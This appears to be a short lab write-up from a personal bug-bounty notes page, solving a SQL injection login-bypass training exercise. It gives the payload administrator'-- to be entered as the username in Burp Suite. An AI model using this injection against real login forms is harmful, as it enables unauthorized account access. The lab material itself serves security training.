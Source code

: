 Lab: SQL injection vulnerability allowing login bypass
APPRENTICE

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user.
<pre>
<b> Solution</b>

  GET /my-account?id=administrator HTTP/2
  
Use Burp Suite to intercept and modify the login request.
Modify the username parameter, giving it the value: administrator'--
</pre>

  ![Lab2](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/9c9c89b9-ba58-4309-8180-79006f021401)
